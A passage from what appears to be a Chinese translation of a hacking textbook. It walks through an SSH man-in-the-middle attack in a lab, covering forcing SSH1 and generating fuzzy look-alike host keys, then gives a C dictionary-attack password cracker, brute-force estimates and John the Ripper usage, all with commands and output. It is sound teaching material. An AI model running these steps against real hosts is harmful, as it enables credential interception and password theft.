.  ..  .bash_logout  .bash_profile  .bashrc  .bashrc.swp  .profile  Examples
jose@loki:~ $ id
uid=1001(jose) gid=1001(jose) groups=1001(jose)
jose@loki:~ $ exit 
logout
```

由于认证实际上被重定向，攻击者的机器作为代理，密码 *sP#byp%srt* 可以被嗅探。此外，连接期间传输的数据被捕获，显示了攻击者看到了受害者在整个 SSH 会话期间所做的一切。

攻击者能够伪装成任一方的能力使得这种攻击成为可能。SSL 和 SSH 都是考虑到这一点而设计的，并且有防止身份欺骗的保护措施。SSL 使用证书来验证身份，而 SSH 使用宿主指纹。如果 A 尝试与攻击者打开加密通信通道时，攻击者没有 B 的正确证书或指纹，签名将不会匹配，A 将收到一个警告。

在前面的例子中，192.168.42.250 (tetsuo) 从未与 192.168.42.72 (loki) 通过 SSH 进行过通信，因此没有宿主指纹。它接受的宿主指纹实际上是 mitm-ssh 生成的指纹。但是，如果 192.168.42.250 (tetsuo) 为 192.168.42.72 (loki) 有一个宿主指纹，整个攻击就会被检测到，用户将看到一个非常明显的警告：

```
iz@tetsuo:~ $ ssh jose@192.168.42.72
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that the RSA host key has just been changed.
The fingerprint for the RSA key sent by the remote host is
84:7a:71:58:0f:b5:5e:1b:17:d7:b5:9c:81:5a:56:7c.
Please contact your system administrator.
Add correct host key in /home/jon/.ssh/known_hosts to get rid of this message.
Offending key in /home/jon/.ssh/known_hosts:1
RSA host key for 192.168.42.72 has changed and you have requested strict checking.
Host key verification failed. 
iz@tetsuo:~ $
```

openssh 客户端实际上会阻止用户连接，直到旧的宿主指纹被移除。然而，许多 Windows SSH 客户端并没有对这些规则进行同样的严格执行，而是会向用户显示一个“你确定要继续吗？”的对话框。一个不知情的使用者可能会直接点击通过警告。

## 不同的 SSH 协议宿主指纹

SSH 宿主指纹确实存在一些漏洞。这些漏洞在最新的 openssh 版本中得到了补偿，但在旧的实施中仍然存在。

通常，第一次将 SSH 连接到新的主机时，该主机的指纹会被添加到 `known_hosts` 文件中，如下所示：

```
iz@tetsuo:~ $ ssh jose@192.168.42.72
The authenticity of host '192.168.42.72 (192.168.42.72)' can't be established.
RSA key fingerprint is ba:06:7f:d2:b9:74:a8:0a:13:cb:a2:f7:e0:10:59:a0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.42.72' (RSA) to the list of known hosts.
jose@192.168.42.72's password: <ctrl-c>
iz@tetsuo:~ $ grep 192.168.42.72 ~/.ssh/known_hosts 
192.168.42.72 ssh-rsa 
AAAAB3NzaC1yc2EAAAABIwAAAIEA8Xq6H28EOiCbQaFbIzPtMJSc316SH4aOijgkf7nZnH4LirNziH5upZmk4/
JSdBXcQohiskFFeHadFViuB4xIURZeF3Z7OJtEi8aupf2pAnhSHF4rmMV1pwaSuNTahsBoKOKSaTUOW0RN/1t3G/
52KTzjtKGacX4gTLNSc8fzfZU= 
iz@tetsuo:~ $
```

然而，SSH 有两种不同的协议——SSH1 和 SSH2——每种协议都有自己的宿主指纹。

```
iz@tetsuo:~ $ rm ~/.ssh/known_hosts 
iz@tetsuo:~ $ ssh -1 jose@192.168.42.72
The authenticity of host '192.168.42.72 (192.168.42.72)' can't be established.
RSA1 key fingerprint is e7:c4:81:fe:38:bc:a8:03:f9:79:cd:16:e9:8f:43:55.
Are you sure you want to continue connecting (yes/no)? no
Host key verification failed.
iz@tetsuo:~ $ ssh -2 jose@192.168.42.72
The authenticity of host '192.168.42.72 (192.168.42.72)' can't be established.
RSA key fingerprint is ba:06:7f:d2:b9:74:a8:0a:13:cb:a2:f7:e0:10:59:a0.
Are you sure you want to continue connecting (yes/no)? no
Host key verification failed. 
iz@tetsuo:~ $
```

SSH 服务器提供的标语描述了它理解哪些 SSH 协议（以下内容加粗显示）：

```
iz@tetsuo:~ $ telnet 192.168.42.72 22
Trying 192.168.42.72...
Connected to 192.168.42.72.
Escape character is '^]'.
`SSH-1.99-OpenSSH_3.9p1`

Connection closed by foreign host.
iz@tetsuo:~ $ telnet 192.168.42.1 22
Trying 192.168.42.1...
Connected to 192.168.42.1.
Escape character is '^]'.
`SSH-2.0-OpenSSH_4.3p2 Debian-8ubuntu1`

Connection closed by foreign host.
iz@tetsuo:~ $
```

来自 192.168.42.72（loki）的 banner 包含字符串 `SSH-1.99`，按照惯例，这意味着服务器支持协议 1 和 2。通常，SSH 服务器会被配置为包含一行如 `Protocol 2,1`，这也意味着服务器支持这两种协议，并尽可能使用 SSH2。这是为了保持向后兼容性，以便仅支持 SSH1 的客户端仍然可以连接。

相比之下，来自 192.168.42.1 的 banner 包含字符串 `SSH-2.0`，这表明服务器只支持协议 2。在这种情况下，很明显，连接到它的任何客户端都只与 SSH2 通信，因此只有协议 2 的主机指纹。

对于 loki（192.168.42.72）来说，情况也是如此；然而，loki 还接受 SSH1，它有一组不同的主机指纹。不太可能客户端会使用 SSH1，因此还没有为该协议存储主机指纹。

如果用于 MitM 攻击的修改后的 SSH 守护进程强制客户端使用其他协议进行通信，则不会找到任何主机指纹。用户不会看到冗长的警告，而是简单地被要求添加新的指纹。mitm-sshtool 使用与 openssh 相似的配置文件，因为它是由该代码构建的。通过在 /usr/local/etc/mitm-ssh_config 中添加 `Protocol 1` 行，mitm-ssh 守护进程将声称它只支持 SSH1 协议。

下面的输出显示，loki 的 SSH 服务器通常使用 SSH1 和 SSH2 协议进行通信，但当使用新的配置文件将 mitm-ssh 放在中间时，伪造的服务器声称它只支持 SSH1 协议。

### 来自 192.168.42.250（tetsuo），网络上的一个无辜的机器

```
iz@tetsuo:~ $ telnet 192.168.42.72 22
Trying 192.168.42.72...
Connected to 192.168.42.72.
Escape character is '^]'.
`SSH-1.99-OpenSSH_3.9p1`

Connection closed by foreign host.
iz@tetsuo:~ $ rm ~/.ssh/known_hosts 
iz@tetsuo:~ $ ssh jose@192.168.42.72
The authenticity of host '192.168.42.72 (192.168.42.72)' can't be established.
RSA key fingerprint is ba:06:7f:d2:b9:74:a8:0a:13:cb:a2:f7:e0:10:59:a0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.42.72' (RSA) to the list of known hosts.
jose@192.168.42.72's password:  

iz@tetsuo:~ $
```

### 在攻击者的机器上，设置 mitm-ssh 以仅使用 SSH1 协议

```
reader@hacking:~ $ echo "Protocol 1" >> /usr/local/etc/mitm-ssh_config 
reader@hacking:~ $ tail /usr/local/etc/mitm-ssh_config 
# Where to store passwords
#PasswdLogFile /var/log/mitm-ssh/passwd.log

# Where to store data sent from client to server
#ClientToServerLogDir /var/log/mitm-ssh

# Where to store data sent from server to client
#ServerToClientLogDir /var/log/mitm-ssh

`Protocol 1`
reader@hacking:~ $ mitm-ssh 192.168.42.72 -v -n -p 2222
Using static route to 192.168.42.72:22
SSH MITM Server listening on 0.0.0.0 port 2222.
Generating 768 bit RSA key. 
RSA key generation complete.
```

### 现在回到 192.168.42.250（tetsuo）

```
iz@tetsuo:~ $ telnet 192.168.42.72 22
Trying 192.168.42.72...
Connected to 192.168.42.72.
Escape character is '^]'.
`SSH-1.5-OpenSSH_3.9p1`

Connection closed by foreign host.
```

通常，像 tetsuo 这样的客户端连接到 192.168.42.72 的 loki 时，只会使用 SSH2 进行通信。因此，客户端上只会存储 SSH 协议 2 的主机指纹。当 MitM 攻击强制使用协议 1 时，由于协议不同，攻击者的指纹将不会与存储的指纹进行比较。较旧的实现将简单地要求添加此指纹，因为技术上不存在此协议的主机指纹。这在下面的输出中显示。

```
iz@tetsuo:~ $ ssh jose@192.168.42.72
The authenticity of host '192.168.42.72 (192.168.42.72)' can't be established.
RSA1 key fingerprint is 45:f7:8d:ea:51:0f:25:db:5a:4b:9e:6a:d6:3c:d0:a6\. 
Are you sure you want to continue connecting (yes/no)?
```

由于这个漏洞已被公开，OpenSSH 的新版本实现有一个稍微更详细的警告：

```
iz@tetsuo:~ $ ssh jose@192.168.42.72
WARNING: RSA key found for host 192.168.42.72
in /home/iz/.ssh/known_hosts:1
RSA key fingerprint ba:06:7f:d2:b9:74:a8:0a:13:cb:a2:f7:e0:10:59:a0.
The authenticity of host '192.168.42.72 (192.168.42.72)' can't be established
but keys of different type are already known for this host.
RSA1 key fingerprint is 45:f7:8d:ea:51:0f:25:db:5a:4b:9e:6a:d6:3c:d0:a6\. 
Are you sure you want to continue connecting (yes/no)?
```

这种修改后的警告不如在相同协议的主机指纹不匹配时给出的警告强烈。此外，由于并非所有客户端都会更新，这种技术仍然可以证明对中间人攻击（MitM）是有用的。

## 模糊指纹

Konrad Rieck 关于 SSH 主机指纹有一个有趣的想法。通常，用户会从几个不同的客户端连接到服务器。每次使用新的客户端时，都会显示并添加主机指纹，一个有安全意识的用户往往会记住主机指纹的一般结构。虽然没有人真正记住整个指纹，但通过一点努力就可以检测到主要的变化。当从新的客户端连接时，对主机指纹的一般了解大大增加了连接的安全性。如果尝试中间人攻击，主机指纹的明显差异通常可以通过肉眼检测到。

然而，眼睛和大脑可能会被骗。某些指纹看起来与其他指纹非常相似。数字 1 和 7 在显示字体不同的情况下看起来非常相似。通常，指纹开头和结尾找到的十六进制数字记得最清楚，而中间部分往往有点模糊。模糊指纹技术的目标是通过生成一个指纹看起来足够接近原始指纹，以至于可以欺骗人眼的主机密钥。

openssh 软件包提供了从服务器检索主机密钥的工具。

```
reader@hacking:~ $ ssh-keyscan -t rsa 192.168.42.72 > loki.hostkey
# 192.168.42.72 SSH-1.99-OpenSSH_3.9p1
reader@hacking:~ $ cat loki.hostkey 
192.168.42.72 ssh-rsa 
AAAAB3NzaC1yc2EAAAABIwAAAIEA8Xq6H28EOiCbQaFbIzPtMJSc316SH4aOijgkf7nZnH4LirNziH5upZmk4/
JSdBXcQohiskFFeHadFViuB4xIURZeF3Z7OJtEi8aupf2pAnhSHF4rmMV1pwaSuNTahsBoKOKSaTUOW0RN/1t3G/
52KTzjtKGacX4gTLNSc8fzfZU=
reader@hacking:~ $ ssh-keygen -l -f loki.hostkey 
1024 ba:06:7f:d2:b9:74:a8:0a:13:cb:a2:f7:e0:10:59:a0 192.168.42.72 
reader@hacking:~ $
```

现在，已知 192.168.42.72（loki）的主机密钥指纹格式，可以生成看起来相似的模糊指纹。Rieck 开发了一个执行此操作的程序，可在[`www.thc.org/thc-ffp/`](http://www.thc.org/thc-ffp/)找到。以下输出显示了为 192.168.42.72（loki）创建的一些模糊指纹。

```
reader@hacking:~ $ ffp
Usage: ffp [Options]
Options:
  -f type       Specify type of fingerprint to use [Default: md5]
                Available: md5, sha1, ripemd
  -t hash       Target fingerprint in byte blocks. 
                Colon-separated: 01:23:45:67... or as string 01234567...
  -k type       Specify type of key to calculate [Default: rsa]
                Available: rsa, dsa
  -b bits       Number of bits in the keys to calculate [Default: 1024]
  -K mode       Specify key calulation mode [Default: sloppy]
                Available: sloppy, accurate
  -m type       Specify type of fuzzy map to use [Default: gauss]
                Available: gauss, cosine
  -v variation  Variation to use for fuzzy map generation [Default: 7.3]
  -y mean       Mean value to use for fuzzy map generation [Default: 0.14]
  -l size       Size of list that contains best fingerprints [Default: 10]
  -s filename   Filename of the state file [Default: /var/tmp/ffp.state]
  -e            Extract SSH host key pairs from state file
  -d directory  Directory to store generated ssh keys to [Default: /tmp]
  -p period     Period to save state file and display state [Default: 60]
  -V            Display version information
No state file /var/tmp/ffp.state present, specify a target hash.
reader@hacking:~ $ ffp -f md5 -k rsa -b 1024 -t ba:06:7f:d2:b9:74:a8:0a:13:cb:a2:f7:e0:
10:59:a0
---[Initializing]---------------------------------------------------------------
 Initializing Crunch Hash: Done
   Initializing Fuzzy Map: Done
 Initializing Private Key: Done
   Initializing Hash List: Done
   Initializing FFP State: Done
---[Fuzzy Map]------------------------------------------------------------------
    Length: 32
      Type: Inverse Gaussian Distribution
       Sum: 15020328
 Fuzzy Map:  10.83% | 9.64% : 8.52% | 7.47% : 6.49% | 5.58% : 4.74% | 3.96% :
             3.25% | 2.62% : 2.05% | 1.55% : 1.12% | 0.76% : 0.47% | 0.24% :
             0.09% | 0.01% : 0.00% | 0.06% : 0.19% | 0.38% : 0.65% | 0.99% :
             1.39% | 1.87% : 2.41% | 3.03% : 3.71% | 4.46% : 5.29% | 6.18% :

---[Current Key]----------------------------------------------------------------
               Key Algorithm: RSA (Rivest Shamir Adleman)
        Key Bits / Size of n: 1024 Bits
                Public key e: 0x10001
 Public Key Bits / Size of e: 17 Bits
        Phi(n) and e r.prime: Yes
             Generation Mode: Sloppy

 State File: /var/tmp/ffp.state
 Running...

---[Current State]--------------------------------------------------------------
 Running:   0d 00h 00m 00s | Total:          0k hashs | Speed:      nan hashs/s 
--------------------------------------------------------------------------------
 Best Fuzzy Fingerprint from State File /var/tmp/ffp.state
   Hash Algorithm: Message Digest 5 (MD5)
      Digest Size: 16 Bytes / 128 Bits
   Message Digest: 6a:06:f9:a6:cf:09:19:af:c3:9d:c5:b9:91:a4:8d:81
    Target Digest: ba:06:7f:d2:b9:74:a8:0a:13:cb:a2:f7:e0:10:59:a0
    Fuzzy Quality: 25.652482%

---[Current State]--------------------------------------------------------------
 Running:   0d 00h 01m 00s | Total:       7635k hashs | Speed:   127242 hashs/s 
--------------------------------------------------------------------------------
 Best Fuzzy Fingerprint from State File /var/tmp/ffp.state
   Hash Algorithm: Message Digest 5 (MD5)
      Digest Size: 16 Bytes / 128 Bits
   Message Digest: ba:06:3a:8c:bc:73:24:64:5b:8a:6d:fa:a6:1c:09:80
    Target Digest: ba:06:7f:d2:b9:74:a8:0a:13:cb:a2:f7:e0:10:59:a0
    Fuzzy Quality: 55.471931%

---[Current State]--------------------------------------------------------------
 Running:   0d 00h 02m 00s | Total:      15370k hashs | Speed:   128082 hashs/s 
--------------------------------------------------------------------------------
 Best Fuzzy Fingerprint from State File /var/tmp/ffp.state
   Hash Algorithm: Message Digest 5 (MD5)
      Digest Size: 16 Bytes / 128 Bits
   Message Digest: ba:06:3a:8c:bc:73:24:64:5b:8a:6d:fa:a6:1c:09:80
    Target Digest: ba:06:7f:d2:b9:74:a8:0a:13:cb:a2:f7:e0:10:59:a0
    Fuzzy Quality: 55.471931%

.:[ output trimmed ]:.
---[Current State]--------------------------------------------------------------
Running: 1d 05h 06m 00s | Total: 13266446k hashs | Speed: 126637 hashs/s 
--------------------------------------------------------------------------------
Best Fuzzy Fingerprint from State File /var/tmp/ffp.state
Hash Algorithm: Message Digest 5 (MD5)
Digest Size: 16 Bytes / 128 Bits
Message Digest: ba:0d:7f:d2:64:76:b8:9c:f1:22:22:87:b0:26:59:50
Target Digest: ba:06:7f:d2:b9:74:a8:0a:13:cb:a2:f7:e0:10:59:a0
Fuzzy Quality: 70.158321%

--------------------------------------------------------------------------------
Exiting and saving state file /var/tmp/ffp.state 
reader@hacking:~ $
```

这种模糊指纹生成过程可以持续进行，直到所需的时间。程序会跟踪一些最好的指纹，并会定期显示它们。所有状态信息都存储在/var/tmp/ffp.state 中，因此程序可以通过按 CTRL-C 退出，然后通过简单地运行`ffp`而不带任何参数来稍后再次继续。

运行一段时间后，可以使用`-e`开关从状态文件中提取 SSH 主机密钥对。

```
reader@hacking:~ $ ffp -e -d /tmp
---[Restoring]------------------------------------------------------------------
   Reading FFP State File: Done
    Restoring environment: Done
 Initializing Crunch Hash: Done
--------------------------------------------------------------------------------
 Saving SSH host key pairs: [00] [01] [02] [03] [04] [05] [06] [07] [08] [09] 
reader@hacking:~ $ ls /tmp/ssh-rsa*
/tmp/ssh-rsa00      /tmp/ssh-rsa02.pub  /tmp/ssh-rsa05      /tmp/ssh-rsa07.pub
/tmp/ssh-rsa00.pub  /tmp/ssh-rsa03      /tmp/ssh-rsa05.pub  /tmp/ssh-rsa08
/tmp/ssh-rsa01      /tmp/ssh-rsa03.pub  /tmp/ssh-rsa06      /tmp/ssh-rsa08.pub
/tmp/ssh-rsa01.pub  /tmp/ssh-rsa04      /tmp/ssh-rsa06.pub  /tmp/ssh-rsa09
/tmp/ssh-rsa02      /tmp/ssh-rsa04.pub  /tmp/ssh-rsa07      /tmp/ssh-rsa09.pub 
reader@hacking:~ $
```

在前面的例子中，生成了 10 个公钥和私钥的主机密钥对。然后可以生成这些密钥对的指纹，并与原始指纹进行比较，如下面的输出所示。

```
reader@hacking:~ $ for i in $(ls -1 /tmp/ssh-rsa*.pub)
> do
> ssh-keygen -l -f $i
> done
1024 ba:0d:7f:d2:64:76:b8:9c:f1:22:22:87:b0:26:59:50 /tmp/ssh-rsa00.pub
1024 ba:06:7f:12:bd:8a:5b:5c:eb:dd:93:ec:ec:d3:89:a9 /tmp/ssh-rsa01.pub
`1024 ba:06:7e:b2:64:13:cf:0f:a4:69:17:d0:60:62:69:a0 /tmp/ssh-rsa02.pub`
1024 ba:06:49:d4:b9:d4:96:4b:93:e8:5d:00:bd:99:53:a0 /tmp/ssh-rsa03.pub
1024 ba:06:7c:d2:15:a2:d3:0d:bf:f0:d4:5d:c6:10:22:90 /tmp/ssh-rsa04.pub
1024 ba:06:3f:22:1b:44:7b:db:41:27:54:ac:4a:10:29:e0 /tmp/ssh-rsa05.pub
1024 ba:06:78:dc:be:a6:43:15:eb:3f:ac:92:e5:8e:c9:50 /tmp/ssh-rsa06.pub
1024 ba:06:7f:da:ae:61:58:aa:eb:55:d0:0c:f6:13:61:30 /tmp/ssh-rsa07.pub
1024 ba:06:7d:e8:94:ad:eb:95:d2:c5:1e:6d:19:53:59:a0 /tmp/ssh-rsa08.pub
1024 ba:06:74:a2:c2:8b:a4:92:e1:e1:75:f5:19:15:60:a0 /tmp/ssh-rsa09.pub
reader@hacking:~ $ ssh-keygen -l -f ./loki.hostkey 
1024 ba:06:7f:d2:b9:74:a8:0a:13:cb:a2:f7:e0:10:59:a0 192.168.42.72 
reader@hacking:~ $
```

从生成的 10 个密钥对中，可以通过肉眼判断出看起来最相似的一个。在这种情况下，被加粗显示的 ssh-rsa02.pub 被选中。然而，无论选择哪个密钥对，它看起来肯定比任何随机生成的密钥更像原始指纹。

这个新的密钥可以与 mitm-ssh 一起使用，以进行更有效的攻击。主机密钥的位置在配置文件中指定，因此使用新密钥只需在/usr/local/etc/mitm-ssh_config 中添加一个`HostKey`行，如下所示。由于我们需要删除之前添加的`Protocol 1`行，下面的输出只是简单地覆盖了配置文件。

```
reader@hacking:~ $ echo "HostKey /tmp/ssh-rsa02" > /usr/local/etc/mitm-ssh_config 
reader@hacking:~ $ mitm-ssh 192.168.42.72 -v -n -p 2222Using static route to 192.168.
42.72:22
Disabling protocol version 1\. Could not load host key 
SSH MITM Server listening on 0.0.0.0 port 2222.
```

在另一个终端窗口中，arpspoof 正在运行，以将流量重定向到使用模糊指纹的新主机密钥的 mitm-ssh。下面的输出比较了客户端在连接时看到的输出。

### 正常连接

```
iz@tetsuo:~ $ ssh jose@192.168.42.72
The authenticity of host '192.168.42.72 (192.168.42.72)' can't be established.
RSA key fingerprint is ba:06:7f:d2:b9:74:a8:0a:13:cb:a2:f7:e0:10:59:a0\. 
Are you sure you want to continue connecting (yes/no)?
```

### 中间人攻击连接

```
iz@tetsuo:~ $ ssh jose@192.168.42.72
The authenticity of host '192.168.42.72 (192.168.42.72)' can't be established.
RSA key fingerprint is ba:06:7e:b2:64:13:cf:0f:a4:69:17:d0:60:62:69:a0\. 
Are you sure you want to continue connecting (yes/no)?
```

你能立即分辨出差异吗？这些指纹看起来足够相似，足以欺骗大多数人简单地接受连接。

# 密码破解

密码通常不会以明文形式存储。包含所有密码的明文文件会是一个极具吸引力的目标，因此，相反地，使用单向散列函数。这些函数中最著名的是基于 DES 的，称为`crypt()`，这在下面的手册页中有描述。

```
NAME
       crypt - password and data encryption

SYNOPSIS
       #define _XOPEN_SOURCE
       #include <unistd.h>

       char *crypt(const char *key, const char *salt);

DESCRIPTION
       crypt()  is  the  password  encryption  function.  It is based on the Data
       Encryption  Standard  algorithm  with  variations  intended  (among  other
       things) to discourage use of hardware implementations of a key search.

       key is a user's typed password.

       salt  is  a  two-character string chosen from the set [a-zA-Z0-9./].  This 
       string is used to perturb the algorithm in one of 4096 different ways.
```

这是一个单向散列函数，它期望输入明文密码和盐值，然后输出一个带有盐值前缀的散列。这个散列在数学上是不可逆的，这意味着仅使用散列无法确定原始密码。编写一个快速程序来实验这个函数将有助于澄清任何混淆。

## 密码破解

### `crypt_test.c`

```
#define _XOPEN_SOURCE
#include <unistd.h>
#include <stdio.h>

int main(int argc, char *argv[]) {
   if(argc < 2) { 
      printf("Usage: %s <plaintext password> <salt value>\n", argv[0]);
      exit(1); 
   }
   printf("password \"%s\" with salt \"%s\" ", argv[1], argv[2]);
   printf("hashes to ==> %s\n", crypt(argv[1], argv[2])); 
}
```

当这个程序编译时，需要链接 crypt 库。这在上面的输出中显示，以及一些测试运行。

```
reader@hacking:~/booksrc $ gcc -o crypt_test crypt_test.c 
/tmp/cccrSvYU.o: In function `main':
crypt_test.c:(.text+0x73): undefined reference to `crypt'
collect2: ld returned 1 exit status
reader@hacking:~/booksrc $ gcc -o crypt_test crypt_test.c -l crypt
reader@hacking:~/booksrc $ ./crypt_test testing je
password "testing" with salt "je" hashes to ==> jeLu9ckBgvgX.
reader@hacking:~/booksrc $ ./crypt_test test je
password "test" with salt "je" hashes to ==> jeHEAX1m66RV.
reader@hacking:~/booksrc $ ./crypt_test test xy
password "test" with salt "xy" hashes to ==> xyVSuHLjceD92 
reader@hacking:~/booksrc $
```

注意，在最后两次运行中，使用了相同的密码进行加密，但使用了不同的盐值。盐值被用来进一步扰动算法，因此如果使用不同的盐值，相同的明文值可以有多个散列值。散列值（包括前缀的盐值）在密码文件中存储，前提是如果攻击者窃取了密码文件，散列值将毫无用处。

当一个合法用户需要使用密码散列进行身份验证时，该用户的散列值会在密码文件中进行查找。系统会提示用户输入她的密码，从密码文件中提取原始的盐值，然后将用户输入的内容通过相同的单向散列函数与盐值一起处理。如果输入了正确的密码，单向散列函数将产生与密码文件中存储的散列值相同的输出。这允许身份验证按预期工作，而无需存储明文密码。

## 字典攻击

然而，事实表明，密码文件中的加密密码并非毫无用处。当然，从数学上讲，无法逆向散列，但可以使用特定的盐值快速散列字典中的每个单词，并将结果与该散列值进行比较。如果散列值匹配，那么字典中的那个单词必须是明文密码。

一个简单的字典攻击程序可以很容易地制作出来。它只需要从文件中读取单词，使用适当的盐值对每个单词进行散列，并在找到匹配项时显示该单词。以下源代码使用文件流函数实现，这些函数包含在 stdio.h 中。这些函数更容易处理，因为它们使用 FILE 结构指针封装了 `open()` 调用和文件描述符的混乱，而不是直接使用。在下面的源代码中，`fopen()` 调用的 `r` 参数告诉它以读取模式打开文件。如果失败，它返回 NULL，或者指向打开的文件流。`fgets()` 调用从文件流中获取一个字符串，直到达到最大长度或遇到行尾。在这种情况下，它用于从单词列表文件中读取每一行。此函数在失败时也返回 NULL，这被用来检测文件末尾。

### crypt_crack.c

```
#define _XOPEN_SOURCE
#include <unistd.h>
#include <stdio.h>

/* Barf a message and exit. */
void barf(char *message, char *extra) {
   printf(message, extra);
   exit(1);
}

/* A dictionary attack example program */
int main(int argc, char *argv[]) {
   FILE *wordlist;
   char *hash, word[30], salt[3];
   if(argc < 2)
      barf("Usage: %s <wordlist file> <password hash>\n", argv[0]);

   strncpy(salt, argv[2], 2); // First 2 bytes of hash are the salt.
   salt[2] = '\0';  // terminate string

   printf("Salt value is \'%s\'\n", salt);

   if( (wordlist = fopen(argv[1], "r")) == NULL) // Open the wordlist.
      barf("Fatal: couldn't open the file \'%s\'.\n", argv[1]);

   while(fgets(word, 30, wordlist) != NULL) { // Read each word
      word[strlen(word)-1] = '\0'; // Remove the '\n' byte at the end.
      hash = crypt(word, salt); // Hash the word using the salt.
      printf("trying word:   %-30s ==> %15s\n", word, hash);
      if(strcmp(hash, argv[2]) == 0) { // If the hash matches
         printf("The hash \"%s\" is from the ", argv[2]);
         printf("plaintext password \"%s\".\n", word);
         fclose(wordlist);
         exit(0);
      }
   }
   printf("Couldn't find the plaintext password in the supplied wordlist.\n");
   fclose(wordlist); 
}
```

以下输出显示了该程序被用来破解密码散列 *jeHEAX1m66RV.*，使用了位于 /usr/share/dict/words 中的单词。

```
reader@hacking:~/booksrc $ gcc -o crypt_crack crypt_crack.c -lcrypt
reader@hacking:~/booksrc $ ./crypt_crack /usr/share/dict/words jeHEAX1m66RV.
Salt value is 'je'
trying word:                                  ==>   jesS3DmkteZYk
trying word:   A                              ==>   jeV7uK/S.y/KU
trying word:   A's                            ==>   jeEcn7sF7jwWU
trying word:   AOL                            ==>   jeSFGex8ANJDE
trying word:   AOL's                          ==>   jesSDhacNYUbc
trying word:   Aachen                         ==>   jeyQc3uB14q1E
trying word:   Aachen's                       ==>   je7AQSxfhvsyM
trying word:   Aaliyah                        ==>   je/vAqRJyOZvU

.:[ output trimmed ]:.

trying word:   terse                          ==>   jelgEmNGLflJ2
trying word:   tersely                        ==>   jeYfo1aImUWqg
trying word:   terseness                      ==>   jedH11z6kkEaA
trying word:   terseness's                    ==>   jedH11z6kkEaA
trying word:   terser                         ==>   jeXptBe6psF3g
trying word:   tersest                        ==>   jenhzylhDIqBA
trying word:   tertiary                       ==>   jex6uKY9AJDto
trying word:   test                           ==>   jeHEAX1m66RV.
The hash "jeHEAX1m66RV." is from the plaintext password "test". 
reader@hacking:~/booksrc $
```

由于单词 *test* 是原始密码，并且这个单词在单词文件中存在，密码散列最终会被破解。这就是为什么使用基于字典单词的密码被认为是不安全的做法。

这种攻击的缺点是，如果原始密码不是字典文件中找到的单词，密码将不会被找到。例如，如果使用像`h4R%`这样的非字典单词作为密码，字典攻击将无法找到它：

```
reader@hacking:~/booksrc $ ./crypt_test h4R% je
password "h4R%" with salt "je" hashes to ==> jeMqqfIfPNNTE
reader@hacking:~/booksrc $ ./crypt_crack /usr/share/dict/words jeMqqfIfPNNTE
Salt value is 'je'
trying word:                                  ==>   jesS3DmkteZYk
trying word:   A                              ==>   jeV7uK/S.y/KU
trying word:   A's                            ==>   jeEcn7sF7jwWU
trying word:   AOL                            ==>   jeSFGex8ANJDE
trying word:   AOL's                          ==>   jesSDhacNYUbc
trying word:   Aachen                         ==>   jeyQc3uB14q1E
trying word:   Aachen's                       ==>   je7AQSxfhvsyM
trying word:   Aaliyah                        ==>   je/vAqRJyOZvU

.:[ output trimmed ]:.

trying word:   zooms                          ==>   je8A6DQ87wHHI
trying word:   zoos                           ==>   jePmCz9ZNPwKU
trying word:   zucchini                       ==>   jeqZ9LSWt.esI
trying word:   zucchini's                     ==>   jeqZ9LSWt.esI
trying word:   zucchinis                      ==>   jeqZ9LSWt.esI
trying word:   zwieback                       ==>   jezzR3b5zwlys
trying word:   zwieback's                     ==>   jezzR3b5zwlys
trying word:   zygote                         ==>   jei5HG7JrfLy6
trying word:   zygote's                       ==>   jej86M9AG0yj2
trying word:   zygotes                        ==>   jeWHQebUlxTmo 
Couldn't find the plaintext password in the supplied wordlist.
```

定制的字典文件通常使用不同的语言、单词的标准修改（例如将字母转换为数字）或简单地在每个单词的末尾添加数字来创建。虽然更大的字典会产生更多的密码，但它也会花费更多的时间来处理。

## 极端暴力破解攻击

尝试每个可能组合的字典攻击是 *极端暴力破解* 攻击。虽然这种攻击在技术上能够破解每个可能的密码，但它可能需要比你的曾孙们的曾孙愿意等待的时间更长。

对于`crypt()-`风格的密码，有 95 个可能的输入字符，对于穷举搜索所有八字符密码，有 95⁸种可能的密码，这相当于超过七十万亿种可能的密码。这个数字增长得如此之快，是因为随着密码长度的增加，可能的密码数量呈指数增长。假设每秒可以破解 10000 次，尝试每一个密码需要大约 22875 年。将这个努力分散到多台机器和处理器上是一种可能的方法；然而，重要的是要记住，这只会实现线性加速。如果有一千台机器组合起来，每台机器每秒可以破解 10000 次，这个努力仍然需要超过 22 年。添加另一台机器实现的线性加速与增加一个字符到密码长度时密钥空间增长相比是微不足道的。

幸运的是，指数增长的逆命题也是成立的；随着密码长度的减少，可能的密码数量以指数方式减少。这意味着一个四字符的密码只有 95⁴种可能的密码。这个密钥空间只有大约 8400 万种可能的密码，在超过两小时内就可以被穷举破解（假设每秒可以破解 10000 次）。这意味着，即使像`h4R%`这样的密码不在任何字典中，也可以在合理的时间内被破解。

这意味着，除了避免字典单词外，密码长度也很重要。由于复杂性呈指数增长，将长度加倍以生成一个八字符密码应该会将破解密码所需的工作量降低到不合理的时间范围内。

Solar Designer 开发了一个名为 John the Ripper 的密码破解程序，该程序首先使用字典攻击，然后进行穷举暴力攻击。这个程序可能是这一类中最受欢迎的；它可以在[`www.openwall.com/john`](http://www.openwall.com/john)找到。它已经被包含在 LiveCD 中。

```
reader@hacking:~/booksrc $ john

John the Ripper  Version 1.6  Copyright (c) 1996-98 by Solar Designer

Usage: john [OPTIONS] [PASSWORD-FILES]
-single                   "single crack" mode
-wordfile:FILE -stdin     wordlist mode, read words from FILE or stdin
-rules                    enable rules for wordlist mode
-incremental[:MODE]       incremental mode [using section MODE]
-external:MODE            external mode or word filter
-stdout[:LENGTH]          no cracking, just write words to stdout
-restore[:FILE]           restore an interrupted session [from FILE]
-session:FILE             set session file name to FILE
-status[:FILE]            print status of a session [from FILE]
-makechars:FILE           make a charset, FILE will be overwritten
-show                     show cracked passwords
-test                     perform a benchmark
-users:[-]LOGIN|UID[,..]  load this (these) user(s) only
-groups:[-]GID[,..]       load users of this (these) group(s) only
-shells:[-]SHELL[,..]     load users with this (these) shell(s) only
